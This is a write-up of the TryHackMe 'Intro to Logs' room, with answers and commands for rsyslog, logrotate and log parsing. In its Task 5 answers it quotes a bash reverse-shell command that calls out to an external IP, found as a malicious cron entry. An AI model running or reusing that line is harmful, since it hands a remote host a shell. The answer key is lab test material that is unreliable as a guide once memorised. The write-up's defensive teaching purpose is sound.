









# Intro to Logs - TryHackMe

**Room:** [Intro to Logs](https://tryhackme.com/room/introtologs)  
**Difficulty:** Easy  
**Date completed:** November 2026  
**Platform:** TryHackMe AttackBox  

---

## Description

This room covers the fundamentals of logging, data sources, collection methods, and principles needed to start log analysis.

Main topics:

- Importance of logs as historical evidence
- Log types, formats and standards
- Log collection with **rsyslog**
- Log management and rotation with **logrotate**
- Parsing and consolidating logs with Unix tools (`awk`, `sed`, `sort`, `uniq`)
- Practical analysis of sshd and cron logs

---

## Room Structure

| Task | Title |
|------|-------|
| 1 | Introduction |
| 2 | Expanding Perspectives: Logs as Evidence of Historical Activity |
| 3 | Types, Formats, and Standards |
| 4 | Collection, Management, and Processing |
| 5 | Practical Activity: Log Collection with rsyslog |
| 6 | Practical Activity: Log Management with logrotate |

---

## Key Answers

### Task 2 - Logs as Evidence

| Question | Answer |
|----------|--------|
| What is the name of your colleague who left a note on your Desktop? | **Perry** |
| What is the full path to the suggested log file for initial investigation? | `/var/log/gitlab/nginx/access.log` |

### Task 3 - Types, Formats, and Standards

Common log types:
- Application Logs
- Audit Logs
- Security Logs
- Server Logs
- System Logs
- Network Logs
- Database Logs
- Web Server Logs

Common formats:
- Semi-structured (Syslog, Windows EVTX)
- Structured (CSV, JSON, XML, W3C ELF)

### Task 5 - Practical: Log Collection with rsyslog

**VM credentials:**  
User: `damianhall`  
IP: `10.113.191.83`

| Question | Answer |
|----------|--------|
| After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs indicating failed login attempts / brute forcing? | **stansimon** |
| What is the IP address of SIEM-02 based on the rsyslog configuration file `/etc/rsyslog.d/99-websrv-02-cron.conf`? | **10.10.10.101** |
| Based on the generated logs in `/var/log/websrv-02/rsyslog_cron.log`, what command is being executed by the root user? | `/bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"` |

**Screenshots:**

  
  
  
  


### Task 6 - Practical: Log Management with logrotate

Configuration example for `/var/log/websrv-02/rsyslog_sshd.log`:

```bash
/var/log/websrv-02/rsyslog_sshd.log {
    daily
    rotate 30
    compress
    lastaction
        # hash generation + systemctl restart rsyslog
    endscript
}
```

Manual force rotation:
```bash
sudo logrotate -f /etc/logrotate.d/98-websrv-02_sshd.conf
```

**Screenshots:**

  


### Log Viewer / Parsed Logs

**Screenshots:**

  


---

## Useful Commands

```bash
# Check rsyslog status
sudo systemctl status rsyslog

# Create / edit rsyslog config for sshd
sudo nano /etc/rsyslog.d/98-websrv-02-sshd.conf

# Example content:
# $FileCreateMode 0644
# :programname, isequal, "sshd" /var/log/websrv-02/rsyslog_sshd.log

# Restart rsyslog
sudo systemctl restart rsyslog

# View sshd logs
ls -la /var/log/websrv-02/
cat /var/log/websrv-02/rsyslog_sshd.log
grep -i "stansimon" /var/log/websrv-02/rsyslog_sshd.log

# View cron logs
cat /var/log/websrv-02/rsyslog_cron.log
grep "CMD" /var/log/websrv-02/rsyslog_cron.log

# logrotate
sudo nano /etc/logrotate.d/98-websrv-02_sshd.conf
sudo logrotate -f /etc/logrotate.d/98-websrv-02_sshd.conf
ls -la /var/log/websrv-02/

# Parse & consolidate logs
grep "34.253.159.159" /tmp/parsed_consolidated.log > /tmp/filtered_consolidated.log
sort /tmp/parsed_consolidated.log > /tmp/sort_parsed_consolidated.log
uniq /tmp/sort_parsed_consolidated.log > /tmp/uniq_sort_parsed_consolidated.log
```

---

## Key Takeaways

- Logs are historical records that help answer **What / When / Where / Who / Success / Result**.
- Common log types: Application, Audit, Security, System, Network, Web Server, Database.
- **rsyslog** is widely used for log collection and forwarding on Linux.
- **logrotate** automates rotation, compression and cleanup of log files.
- Unix tools (`awk`, `sed`, `sort`, `uniq`, `grep`) are essential for parsing and consolidating logs.
- Always check both local log files and forwarding configuration (SIEM).
- Failed SSH attempts (`stansimon`) and reverse shell in cron are classic indicators.

---
